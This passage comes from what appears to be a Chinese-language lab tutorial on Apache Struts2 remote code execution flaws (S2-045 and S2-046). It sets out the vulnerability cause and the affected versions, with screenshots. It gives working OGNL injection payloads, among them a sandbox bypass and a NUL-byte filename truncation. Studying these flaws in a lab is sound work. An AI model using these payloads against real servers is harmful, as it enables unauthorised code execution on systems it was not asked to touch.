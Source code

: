 ```php
%{(#test='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.println(100*5000)).(#ros.flush())}
```

![image-20210711150314872](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fc8f750de0f85ab316fb542a0007ab2894af90fa.png)

#### poc-2

```php
%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',11*11)}.multipart/form-data
```

![image-20210711150418468](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4a474cc3ee9c5d9ee38637725fa09890feab7037.png)

### 4.14 S2-046远程代码执行漏洞

#### 漏洞原理

##### 攻击者通过设置Content-Disposition的filename字段或者设置Content-Length超过2G这两种方式来触发异常并导致filename字段的OGNL表达式得到执行从而达到远程攻击的目的。该漏洞与045漏洞成因一样，只是漏洞利用的字段发生了改变。

##### 与045相同，046也是OGNL注入，但出现在上传请求的文件名字段中，并且需要NUL字节来拆分有效负载和其余字符串。

#### 影响版本

```php
Struts 2.3.5-Struts 2.3.31҅Struts 2.5-Struts 2.5.10
```

#### 启动漏洞

![image-20210711153613572](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-04586a1899e0816f893cf246ebb875fedd1d8b1b.png)

![image-20210711153651274](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3f5242c7aff266c8b21de3692bcab7df4e0f29a8.png)

#### poc-1，在filename=""处填上

```php
%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',1+99)}\x00b
```

![image-20210711153842625](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5e6076d558352df641da6a91c5ba0f46b0a63ecf.png)

##### 找到b之前的字符，进行00截断

![image-20210711154116137](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1bbc13085b4e0d81b6126e40acf224f4532af66e.png)
